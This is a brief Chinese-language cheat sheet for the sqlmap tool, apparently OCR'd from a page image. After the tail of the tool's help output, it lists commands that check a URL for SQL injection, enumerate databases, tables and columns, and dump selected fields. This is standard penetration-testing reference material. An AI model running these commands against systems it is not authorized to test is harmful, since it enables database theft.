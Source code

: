 ```bash
    --sqlmap-shell      Prompt for an interactive sqlmap shell
    --wizard            Simple wizard interface for beginner users

[!] to see full list of options run with '-hh'

```

## 检查注入点

```bash
sqlmap -u URL
```

## 爆所有数据库信息

```bash
sqlmap -u URL --dbs
```

## 爆当前数据库信息

```bash
sqlmap -u URL --current-db
```

## 指定库名列出所有表

```bash
sqlmap -u URL -D 数据库名称 --tables
```

## 指定库名表名列出所有字段

```bash
sqlmap -u URL -D 数据库名称 -T 表名 --columns
```

## 指定库名表名字段dump出指定字段

```bash
sqlmap -u URL -D 数据库名称 -T 表名 -C 字段...--dump
```

